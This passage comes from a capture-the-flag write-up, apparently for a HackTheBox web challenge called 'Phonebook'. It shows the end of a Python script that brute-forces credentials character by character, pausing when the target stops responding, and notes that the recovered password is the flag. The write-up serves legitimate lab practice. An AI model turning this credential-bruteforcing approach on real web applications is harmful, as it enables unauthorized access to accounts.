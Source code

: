 ```python

			else:
				#print(f"Invalid --> USERNAME : {user_name+usr_character} | PASSWORD : {passwd+pass_character}") # For testing purpose
				track+=1

		except KeyboardInterrupt:
			exit()

		except:
			
			# If the host is not available due to excessive brutefore attack
			# then it will wait some time to send another request
			wait=5
			time.sleep(wait)
			print(f"\nCouldn\'t able to reach {url}   |  Waiting for {wait} seconds\n")


print("Starting Attack\n")

#cred_finder('user_name') # Find the Username
cred_finder('passwd') # Find the Passwd

```

No `proxy` has been used in this script.
You can also run it with `proxy` if you want to.

It may be possible that the webapp will not respond, because of `bruteforce attack`, which can lead to `DDOS Attack`
in that case the script will wait for 5 seconds before sending next request to the webapp.


This script is capable of finding `username` as well as `password`

![brute_user](/assets/htb/challenge/web/phonebook/img/brute_user.png)

But in this case we have to find the `password` only to solve the challenge.
The `password` is the `flag` for this challenge
